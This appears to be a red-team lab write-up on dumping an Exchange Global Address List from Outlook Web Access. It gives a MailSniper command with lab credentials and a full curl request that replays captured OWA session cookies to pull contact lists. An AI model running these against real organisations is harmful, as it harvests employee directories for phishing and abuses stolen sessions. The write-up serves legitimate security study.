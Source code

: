 ```yaml
---
layout: post
title: "2024-06-18-dumping gal global address list from outlook web application"
date: 2024-06-18
categories: enumeration-and-discovery
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-gal-global-address-list-from-outlook-web-application/
---
```


# Dump GAL from OWA

This lab uses MailSniper to dump Global Address List (GAL) off the Outlook Web Application (OWA).

GAL - in layman terms is simply an address book of all the people that are known to the Exchange mail server. You know those auto suggestions when you are typing in the email address in the TO field in your email client - they are coming from the GAL.

What Microsoft says about GAL:

> **Global address lists (GALs)**: The built-in GAL that's automatically created by Exchange includes every mail-enabled object in the Active Directory forest. You can create additional GALs to separate users by organization or location, but a user can only see and use one GAL.
>
> [https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019](https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019)

## Execution

Import the MailSniper module and dump the GAL, provided you have at least one set of working credentials:

{% code title="attacker@local" %}
```csharp
. MailSniper.ps1
Get-GlobalAddressList -ExchHostname dc01.offense.local -UserName offense\spotless -Password 123456
```
{% endcode %}

![GAL successfully dumped](<../../.gitbook/assets/Screenshot from 2019-01-15 18-58-46.png>)

When looking at the contacts through the OWA UI, as mentioned in Blackhill Security article, `GetPeopleFilters` API is called to retrieve the `AddressListID`:

![](<../../.gitbook/assets/Screenshot from 2019-01-15 20-16-39.png>)

It is then passed to `FindPeople` API:

![](<../../.gitbook/assets/Screenshot from 2019-01-15 20-21-13.png>)

...which in turn retrieves a JSON object with contacts from the GAL

![](<../../.gitbook/assets/Screenshot from 2019-01-15 19-03-13.png>)

If you are interested in the JSON only (most likely), just switch to the Response tab:

![](<../../.gitbook/assets/Screenshot from 2019-01-15 20-12-57.png>)

If you have logged on to the OWA UI, you could also dump the JSON via CURL in bash:

{% code title="attacker@kali" %}
```bash
curl 'https://dc01/owa/service.svc?action=FindPeople' -X POST -H 'Cookie: X-BackEndCookie=S-1-5-21-2552734371-813931464-1050690807-500=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/N0s7Lq87Gxc/PxczO&S-1-5-21-2552734371-813931464-1050690807-1106=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/O0s3Hq8/PxcvPxc/O; ClientId=TFFPI9GMPEWAPEYPZVIWXQ; PrivateComputer=true; PBack=0; cadata=ESW2hf2tJL2L7Czb69B+/VNo0l5+rM6POPTUJIv0Vj7vsXMUvbqXzNpIkl/GylwMQG4QQg9Y8PkjGlJXU94tEis0V03jSVdgBVUnhOm2cLE=; cadataTTL=lWhZTkknWXOawVEzMk2O5w==; cadataKey=J2xUs5cK+VfEie4cIY6lUI2mE/TkCnmPNm8GY8rJN4x0eZzPLJG5L6igl8y19Xy+i2nKIwKASgtsA8IhZ3uXHuPbd5QYpDZ0YB2yPwTxYCHmUcYWbwBnbt08EFJrAfUL1je4rYgk1iQ43za/S0q0j3Rk1bMqSG6Puk3h0cWkTh4sJ2TtJ/h2UypAVVcIzPZTicLTreFK9JfabW30+r4M+AeQQUGuFXof1iTsPx8TffjSXHeTa3rg+hTh8yZJKXieRfL9YSssSU1g+zRp09w2HqXvtqm0vtXrcCF7jLB3jBzSbC1KtQ+bYPoYQduxvhFS6TV2L8ky421wukMslBV9nQ==; cadataIV=LT7ecWINf5C9N2D4rIA8A1HcR936GFTNMtH3bVI/qr8UR0oi1+yhITjYBg1XIqt4W2YM+qPFXhKQrA0ExhlsObjAdd3KnExbAZwlLoz1YMLTo+tEKhpa6zSKjHvWsPwCZdRuXIOhvUeIyUA6XqpT/ALuCM+QzrY4K96CkkOhl276SAwqTO8cJ++9BdrF7Jcz2e0lWjdPyaXcCj7xCY7Ku6ci8SU2jfohVhUDJYJJo7DURhvLg8jto3r7Wihx2xk7/36V8SjFjz7PDhXiGKqHJltq9erLqXeNPmdZ1pwIxHywbwGNCYxdsnIrkrFRE9DRTiKrpGv2zLEz3LpcA/oBLA==; cadataSig=crGDgMGnHI1qkLJecj9/CHvQqjn8zYtdBTTU3HpszGTRysm+5JL80TnWuedWVPh3XQMFuyUdobef4WBJ3t1waLhBSGIPJSxis8fxCwChZ4nDgRlvnU4N8MJMwmw2l8dHCQTb950FGZYeuwiTxTwVQcHUwvtNQ6urkf4jlqro24G386GvPPXXpvjwZAfimSitjfzO4AucI1lv1Qbt6psmPnMphNDtn3n3R/eKvGPJWPT12DQOO4/qeyhv1Idtmi7QGSqASSQXNwP+Dtn0WPb2+RPtu3dhNf/KC+3babolnTavkYc/ioIVhHUA9J7mO8XX+c+0E94vBI1DYjJVOV2QUg==; ASP.NET_SessionId=0476a55e-b193-4001-ba25-214c7aa1ebc2; TimeOffset=0; Eac_CmdletLogging=false; UC=df6d6d163ec4477cb1b5ee11d6fcd5ae; AppcacheVer=15.1.225.42:en-uswrld; X-OWA-CANARY=DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Origin: https://dc01' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9' -H 'X-OWA-UrlPostData: %7B%22__type%22%3A%22FindPeopleJsonRequest%3A%23Exchange%22%2C%22Header%22%3A%7B%22__type%22%3A%22JsonRequestHeaders%3A%23Exchange%22%2C%22RequestServerVersion%22%3A%22Exchange2013%22%2C%22TimeZoneContext%22%3A%7B%22__type%22%3A%22TimeZoneContext%3A%23Exchange%22%2C%22TimeZoneDefinition%22%3A%7B%22__type%22%3A%22TimeZoneDefinitionType%3A%23Exchange%22%2C%22Id%22%3A%22GMT%20Standard%20Time%22%7D%7D%7D%2C%22Body%22%3A%7B%22__type%22%3A%22FindPeopleRequest%3A%23Exchange%22%2C%22IndexedPageItemView%22%3A%7B%22__type%22%3A%22IndexedPageView%3A%23Exchange%22%2C%22BasePoint%22%3A%22Beginning%22%2C%22Offset%22%3A0%2C%22MaxEntriesReturned%22%3A50%7D%2C%22QueryString%22%3Anull%2C%22ParentFolderId%22%3A%7B%22__type%22%3A%22TargetFolderId%3A%23Exchange%22%2C%22BaseFolderId%22%3A%7B%22__type%22%3A%22AddressListId%3A%23Exchange%22%2C%22Id%22%3A%224ee5c1bc-232a-4edb-b5e0-3596da3b7e05%22%7D%7D%2C%22PersonaShape%22%3A%7B%22__type%22%3A%22PersonaResponseShape%3A%23Exchange%22%2C%22BaseShape%22%3A%22Default%22%2C%22AdditionalProperties%22%3A%5B%7B%22__type%22%3A%22PropertyUri%3A%23Exchange%22%2C%22FieldURI%22%3A%22PersonaAttributions%22%7D%5D%7D%2C%22ShouldResolveOneOffEmailAddress%22%3Afalse%2C%22SearchPeopleSuggestionIndex%22%3Afalse%7D%7D' -H 'Action: FindPeople' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'X-OWA-CANARY: DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Content-Length: 0' -H 'X-OWA-ActionName: BrowseInDirectory' -H 'X-OWA-ActionId: -34' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36' -H 'Content-Type: application/json; charset=UTF-8' -H 'Accept: */*' -H 'X-OWA-ClientBuildVersion: 15.1.225.42' -H 'X-OWA-CorrelationId: TFFPI9GMPEWAPEYPZVIWXQ_154757883153962' -H 'X-OWA-ClientBegin: 2019-01-15T19:00:31.539' -H 'X-OWA-Attempt: 1' --compressed --insecure
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-15 19-26-46.png>)

## References

[https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/](https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/)

{% embed url="https://www.blackhillsinfosec.com/downloading-an-address-book-from-an-outlook-web-app-owa-portal/" %}

@spotheplanet
